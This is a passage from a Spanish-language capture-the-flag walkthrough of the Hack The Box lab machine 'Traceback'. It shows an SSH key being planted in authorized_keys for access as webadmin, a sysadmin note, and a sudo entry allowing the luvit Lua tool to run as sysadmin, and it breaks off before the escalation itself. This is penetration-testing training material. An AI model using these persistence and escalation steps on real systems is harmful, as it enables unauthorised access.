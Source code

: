 ```
$ cp id_rsa.pub authorized_keys

$ ls -l
.rw-r--r--  segsalvaje  segsalvaje  569 B   Wed Aug 19 18:54:48 2020    authorized_keys
.rw-------  segsalvaje  segsalvaje  2.5 KB  Wed Aug 19 18:53:39 2020    id_rsa
.rw-r--r--  segsalvaje  segsalvaje  569 B   Wed Aug 19 18:53:39 2020    id_rsa.pub

```

Ya tenemos acceso al servidor como usuario webadmin.

```
$ ssh -i id_rsa webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Thu Feb 27 06:29:02 2020 from 10.10.14.3
webadmin@traceback:~$ 
```
En el directorio home de webadmin, nos encontramos una nota del usuario sysadmin:

``` bash
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
## Escalada de privilegios

Si analizamos los sudo que tiene el usuario webadmin. Vemos la utilidad que nos comenta sysadmin en el fichero note.txt.

```
$ sudo -ll
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:

Sudoers entry:
    RunAsUsers: sysadmin
    Options: !authenticate
    Commands:
        /home/sysadmin/luvit

```
